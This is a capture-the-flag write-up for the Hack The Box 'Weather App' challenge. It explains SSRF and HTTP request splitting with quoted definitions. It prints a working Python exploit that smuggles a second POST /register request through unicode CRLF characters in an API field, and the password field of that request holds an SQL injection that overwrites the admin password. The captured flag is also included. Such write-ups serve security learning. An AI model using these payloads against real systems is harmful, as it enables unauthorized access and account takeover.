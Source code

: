 index.js checks if socket remoteaddress isn't:
127.0.0.1 return status(401)

there's a db somewhere.
some app is listening on port 80?

vulnerability:
SSRF, SQL injection
```
Path Point:
data/2.5/weather?q=${city},${country}&units=metric&appid=${apiKey}
```
code:
```py
import requests

url = "http://178.62.106.4:31814"

username="admin"

password="123') ON CONFLICT(username) DO UPDATE SET password = 'admin';--"
parsedUsername = username.replace(" ","\u0120").replace("'", "%27").replace('"', "%22")
parsedPassword = password.replace(" ","\u0120").replace("'", "%27").replace('"', "%22")
contentLength = len(parsedUsername) + len(parsedPassword) + 19
endpoint = '127.0.0.1/\u0120HTTP/1.1\u010D\u010AHost:\u0120127.0.0.1\u010D\u010A\u010D\u010APOST\u0120/register\u0120HTTP/1.1\u010D\u010AHost:\u0120127.0.0.1\u010D\u010AContent-Type:\u0120application/x-www-form-urlencoded\u010D\u010AContent-Length:\u0120' + str (contentLength) + '\u010D\u010A\u010D\u010Ausername='+parsedUsername + '&password='+ parsedPassword + '\u010D\u010A\u010D\u010AGET\u0120/?lol='


city='test'
proxies={'http':'http://127.0.0.1:8080'};
country='test'

json={'endpoint':endpoint,'city':city,'country':country}

res=requests.post(url=url+'/api/weather',json=json,proxies=proxies);
```

This took me a long time to guess why the code won't work(yes i stole it from writeup but atleast i took research of SSRF first before i used it)
Apparently, i had to send the proxy data to repeater in order for it to work and then refresh the login webdirectory and see if it gave you the flag or
u can just login again.

this is either SSRF or request splitting but either way i'll try to explain this:

SSRF:
```
Server-side request forgery (also known as SSRF) is a web security vulnerability that allows an attacker to induce the server-side application to make requests to an unintended location.

In a typical SSRF attack, the attacker might cause the server to make a connection to internal-only services within the organization's infrastructure. 
In other cases, they may be able to force the server to connect to arbitrary external systems, potentially leaking sensitive data such as authorization credentials.
                                                                                                                                                                                                                                        --PortSwigger
```

SSRF uses a parameter(it can be endpoint or an API parameter, any parameter) that uses a http request to send information to that specified url, and retrieve
the contents of it:
```
data/2.5/weather?q=${city},${country}&units=metric&appid=${apiKey}

PortSwigger:
stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```

Though, i'd rather call this as the network point or path point.

if we update the parameter or path point to:
```
stockApi=http://localhost/admin
```
this gives us the admin console or the contents of the admin webdirectory, we can visit the directory but it will be blocked or it won't show.

Request Splitting:
```
HTTP Request Splitting is an attack that enables forcing the browser to send arbitrary HTTP requests, inflicting XSS and poisoning the browser's cache. 
The essence of the attack is the ability of the attacker, once the victim (browser) is forced to load the attacker's malicious HTML page, to manipulate 
one of the browser's functions to send 2 HTTP requests instead of one HTTP request. Two such mechanisms have been exploited to date: 
the XmlHttpRequest object (XHR for short) and the HTTP digest authentication mechanism. For this attack to work, the browser must use a forward HTTP proxy 
(not all of them "support" this attack), or the attack must be carried out against a host located on the same IP (from the browser's perspective) with the 
attacker's machine.
                                    ----Webappsec.org

PortSwigger:
HTTP request smuggling is a technique for interfering with the way a web site processes sequences of HTTP requests that are received from one or 
more users. Request smuggling vulnerabilities are often critical in nature, allowing an attacker to bypass security controls, gain unauthorized access to 
sensitive data, and directly compromise other application users.
                                    -----PortSwigger

My Explanation:
Request Splitting, as what it says in the name is the ability to send 2 request instead of one request via vulnerable parameters to gain access or to hold
sensitive data.
```

Explanation of the source code:
```
the endpoint was found from the files downloaded, provided by the HTB(weather App).
It is vulnerable to SSRF; and it is also vulnerable to Request Splitting

the proxy and the endpoint variable is the only thing important to explain the code.
as explained at the top: the endpoint in the code was vulnerable because there was no sanitization

The register was vulnerable to SQL injection( never tried the login )

the proxy is important because this is where we will need to get the retrieved data. The proxy acts as a middle man
between the connection line.

You can use burp suite as your proxy in the code to retrieve the information; and send the request again to repeater.
```

Source:

https://portswigger.net/web-security/request-smuggling

https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/

http://projects.webappsec.org/w/page/13246929/HTTP%20Request%20Splitting


```Proof Of Concept(PoC):
Flag: HTB{w3lc0m3_t0_th3_p1p3_dr34m}
```
![logo](Capture.jpg)
![logo](Capture2.png)
![logo](unkown.png)
